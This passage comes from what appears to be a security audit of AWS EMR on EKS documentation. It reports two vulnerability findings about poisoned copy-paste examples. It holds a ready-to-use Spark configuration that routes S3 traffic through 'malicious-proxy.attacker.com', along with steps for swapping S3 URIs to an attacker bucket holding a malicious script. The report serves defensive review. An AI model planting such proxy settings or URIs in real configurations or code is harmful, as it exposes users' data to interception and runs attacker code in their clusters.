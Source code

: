       }
    }
    ```
  - This snippet, if copy-pasted, would configure the Spark job to route all S3 traffic through `malicious-proxy.attacker.com:8080`, potentially allowing the attacker to intercept sensitive data.
- Security Test Case:
  - Step 1: Modify the file `/code/content/submit-applications/docs/spark/pyspark.md`.
  - Step 2: Introduce the following malicious `configurationOverrides` in one of the code examples:
    ```json
    "configurationOverrides": {
      "applicationConfiguration": [
        {
          "classification": "spark-defaults",
          "properties": {
            "spark.hadoop.fs.s3.proxy.host": "malicious-proxy.attacker.com",
            "spark.hadoop.fs.s3.proxy.port": "8080"
           }
        }
      ],
      "monitoringConfiguration": {
        "cloudWatchMonitoringConfiguration": {
          "logGroupName": "/emr-containers/jobs",
          "logStreamNamePrefix": "demo"
        },
        "s3MonitoringConfiguration": {
          "logUri": "s3://joblogs"
        }
      }
    }
    ```
  - Step 3: Commit and push the changes to the repository.
  - Step 4: As a test user, copy the modified code example from `/code/content/submit-applications/docs/spark/pyspark.md`.
  - Step 5: Execute the copied `aws emr-containers start-job-run` command against a test EMR on EKS virtual cluster.
  - Step 6: Observe the Spark job execution. Network traffic analysis from within the Spark driver or executor pod (if possible in the test environment) would show attempts to connect to `malicious-proxy.attacker.com:8080` when accessing S3. Alternatively, monitoring logs might reveal errors related to S3 access if the proxy is not correctly set up to forward requests.
  - Step 7: This test case demonstrates that malicious configurations can be injected and, if copy-pasted, will be applied to the user's EMR on EKS environment, confirming the vulnerability.

- Vulnerability Name: **Code Injection via Malicious S3 URI in Examples**
- Description:
  - An attacker could replace legitimate S3 URIs in code examples with malicious ones.
  - If a user copy-pastes these examples, their Spark jobs could interact with attacker-controlled S3 buckets, potentially leading to data exfiltration or execution of malicious code if the URI points to an executable script.
  - Step-by-step trigger:
    1. Attacker modifies a markdown file (e.g., `/code/tools/start-job-run-converter/README.md`) in the repository.
    2. Attacker replaces a legitimate S3 URI in a code block with a malicious S3 URI, pointing to an attacker-controlled bucket, for example, changing `s3://<s3 bucket>/health_violations.py` to `s3://attacker-bucket/malicious_script.py`.
    3. A user, intending to use the tool and follow the example, copies the provided code example.
    4. User executes the modified script, which includes the `aws emr-containers start-job-run` command with the malicious S3 URI.
    5. The Spark job attempts to execute the script from the attacker-controlled S3 bucket.
- Impact:
  - By controlling S3 URIs in examples, an attacker could potentially:
    - Trick users into running malicious scripts as their Spark job's entry point.
    - Exfiltrate data by directing job outputs to an attacker-controlled S3 bucket.
    - Cause denial of service by pointing to non-existent or excessively large files in S3.
- Vulnerability Rank: High